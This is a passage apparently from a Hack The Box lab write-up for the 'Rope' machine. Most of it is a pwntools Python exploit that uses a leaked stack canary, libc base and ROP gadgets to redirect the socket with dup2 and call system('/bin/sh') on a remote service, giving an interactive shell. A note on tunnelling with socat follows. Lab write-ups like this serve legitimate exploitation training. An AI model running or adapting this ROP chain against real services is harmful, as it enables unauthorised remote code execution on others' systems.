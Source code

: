 ~~~~python
r.shutdown()
r.close()

success("Found libc base address @ %s" % hex(base))

# load libc
# libc = ELF('/lib/x86_64-linux-gnu/libc.so.6') # my libc
libc = ELF('./libc.so.6') # rope's libc
libc.address = base

# pop a shell
# dup2(4, 0); dup2(4, 1); dup2(4, 2); system("/bin/sh")
payload  = ''
payload += junk
payload += p64(stack_canary)
payload += p64(base_ptr)
payload += p64(pop_rdi_ret)
payload += p64(4)
payload += p64(pop_rsi_pop_ret)
payload += p64(0)
payload += p64(skip)
payload += p64(libc.symbols["dup2"])
payload += p64(ret)
payload += p64(pop_rdi_ret)
payload += p64(4)
payload += p64(pop_rsi_pop_ret)
payload += p64(1)
payload += p64(skip)
payload += p64(libc.symbols["dup2"])
payload += p64(ret)
payload += p64(pop_rdi_ret)
payload += p64(4)
payload += p64(pop_rsi_pop_ret)
payload += p64(2)
payload += p64(skip)
payload += p64(libc.symbols["dup2"])
payload += p64(ret)
payload += p64(pop_rdi_ret)
payload += p64(next(libc.search("/bin/sh\x00")))
payload += p64(libc.symbols["system"])

r = remote(host, port)
r.recvuntil("admin:\n")
r.send(payload)

success("We got shell!")
r.interactive()
~~~~

The statically compiled socat can be obtained [here](https://github.com/andrew-d/static-binaries/tree/master/binaries/linux/x86_64). And this is the command to create a tunnel between `127.0.0.1:1337` and `10.10.10.148:31337` with `socat`.


[1]: https://www.hackthebox.eu/home/machines/profile/200
[2]: https://www.hackthebox.eu/home/users/profile/13243
[3]: https://www.hackthebox.eu/